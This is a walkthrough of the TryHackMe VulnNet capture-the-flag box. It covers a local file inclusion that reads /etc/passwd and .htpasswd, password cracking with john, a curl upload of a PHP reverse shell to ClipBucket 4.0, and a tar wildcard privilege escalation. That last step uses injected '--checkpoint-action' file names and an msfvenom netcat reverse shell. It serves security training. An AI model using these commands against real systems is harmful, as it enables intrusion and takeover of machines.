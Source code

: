 ```yaml
---
title: "Try Hack Me - VulnNet Walkthrough"
date: 2022-07-26 12:00:00
catagories: [article,walkthrough]
tags: [THM, VulnNet, ctf, medium, linux, subdomains, LFI, ssh2john, burp]
---
```


# Intro
This is the oldest of the VulnNet boxes on Try Hack Me. It is also rated as a medium difficulty box.

# Recon
First we will scan the host. I will use [autorecon](https://github.com/Tib3rius/AutoRecon) by [Tib3rius](https://twitter.com/0xTib3rius) to get things started.

If you have never used it before and would like some explaination, check out this post: [Using AutoRecon](https://knox.technology/posts/using_autorecon/)

VulnNet Home Page:
![](/assets/images/vn01-index.jpg)

## Setup /etc/hosts file
- Looking through the nmap scans we find a domain name: `vulnnet.thm`
![](/assets/images/vn01-domain_name.jpg)
This means we should update our `/etc/hosts` file on our local attack machine with a line that looks like:

`<xx.xx.xx.xx> vulnnet.thm`  Replace the xx.xx.xx.xx wit hthe ip the vulnnet machine is assigned.

- If we look at the dirbuster/feroxbuster results we find 2 .js files.
![](/assets/images/vn01-js-files.jpg)

Let's examine these files for more clues.

## Possible LFI Point
In one file we find a reference to: `http://vulnnet.thm/index.php?referer=`
If we try `http://vulnnet.thm/index.php?referer=/etc/passwd` the page just looks like normal, but if we view source on the page that is returned:
![](/assets/images/vn01-etc-passwd.jpg)

Looks like we have two 'real' users:
```bash
root:x:0:0:root:/root:/bin/bash
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
```

## New Subdomain
In the other .js file we find a reference to a subdomain: `broadcast.vulnnet.thm`
We should go back and add that to our line in `/etc/hosts` for VulnNet:

`<xx.xx.xx.xx> vulnnet.thm broadcast.vulnet.thm`  Replace the xx.xx.xx.xx wit hthe ip the vulnnet machine is assigned.

When we go to the site we see that it directs us to log in.
Using burp we verify it is "basic auth"
![](/assets/images/vn01-basic-auth.jpg)

Ok so now let's go back to our LFI - (Local File Inclusion) and check for `/etc/apache2/sites-enabled/000-default.conf`

![](/assets/images/vn01-burp-apache-conf.jpg)

Now lets see if we can view the .htpasswd file.
![](/assets/images/vn01-ba-creds.jpg)
We were able to retrieve a user hash. Let's crack it with `john`

So here is the command I used:
```bash
john --pot=cracked.pot --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- I use the `--pot=<filename>.pot` so that `john` save any cracked passwords in that file, so I don't forget to save them myself!
- The `--wordlist` is the location ofthe wordlist you wish to use. Your `rockyou.txt` might live in a different place than mine.
- And `hash` is just the name of the file I saved the hash we found in.

# ClipBucket?
And now we login to Clip Bucket....what ever that is.
![](/assets/images/vn01-clipbucket.jpg)

Let's see if we can find out what version it is.

Let's view the page source:
![](/assets/images/vn01-cb-version.jpg)
And there it is: ClipBucket version 4.0

## Exploiting ClipBucket

Let's check searchsploit: `searchsploit clipbucket`
![](/assets/images/vn01-ss.jpg)

We can copy the exploit to our current location useing the `-m` (mirror) flag.
`searchsploit -m php/webapps/44250.txt`

Reading through the exploit 44250.txt, it seems to imply that there is a /actions directory on the ClipBucket app.
Let's check it out....
![](/assets/images/vn-01-cb-actions.jpg)

So it looks like if we use this command:

```bash
sudo curl -F "file=@thm-shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:<PASSWORD>
```
We should be able to upload a reverse shell.

DON'T foget to set up your listener! :)

After the file is uploaded check the actions directory and there is a new folder: `CB_BEATS_UPLOAD_DIR` the rev shell file will be in there.

![](/assets/images/vn01-rev-shell.jpg)

# Foothold
## www-data user
First upgrade shell: `python3 -c "import pty;pty.spawn('/bin/bash')"`

First run this to make sure your path and some others things are setup correctly in your shell:
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;export TERM=xterm-256color;alias ll='ls -lah --color=auto'
```

And I created a little one liner to get some quick info on the system.
```bash
echo '----------';which gcc;which cc;which python;which python3;which perl;echo '';which wget;which curl;which nc;echo '';whoami;id;echo '';file /bin/bash;echo '';uname -a;cat /etc/issue;cat /etc/*-release;echo '-----------'
```

Which gets you this:
![](/assets/images/vn01-system-info.jpg)

Next I will use `wget` to copy the `lse.sh` script over to look for privesc options.
[Here is the github repo for LSE](https://github.com/diego-treitos/linux-smart-enumeration)

We discover this file running LSE:

```bash
[!] fst190 Can we read any backup?......................................... yes!
---
-rw-rw-r-- 1 server-management server-management 1484 Jan 24  2021 /var/backups/ssh-backup.tar.gz
```

I wasn't able to extract the `tar` file on the machine, so since we have python3 I fired up a python3 http server with: `python3 -m http.server 8000` to copy the file over.

Extracting the backup file gives us an `id_rsa` file. But it is password protected.

Use `ssh2john id_rsa > id_rsa.hash`

and then use the `john` to crack the newly created hash.

DON'T forget to `chmod 400 id_rsa`

Now we can login through ssh with the `server-management` user.

## server-management user
From this account running LSE reveals a cron running a file we have write access to.
The script the cron runs is in `/var/opt/backupsrv.sh` Examining that file reveals that is making a backup out of all the files in `/home/server-management/Documents` using the "*" wildcard.

You can read about we can use this at [gtfobins](https://gtfobins.github.io/gtfobins/tar/) BTW that site should be on your speed dial!

There is also a great article about exploiting the wildcard [HERE](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

On your local machine: `msfvenom -p cmd/unix/reverse_netcat lhost=<local-ip> lport=<desired-port> R` to get your reverse shell.
Start your listener!

On the target machine navigate to `/home/server-management/Documents`
```bash
echo "YOUR REVERSE SHELL FROM MSFVENOM HERE" > shell.sh
chmod +x shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

And then wait for the cron to run. Your shell should pop up.

Go get that root flag!

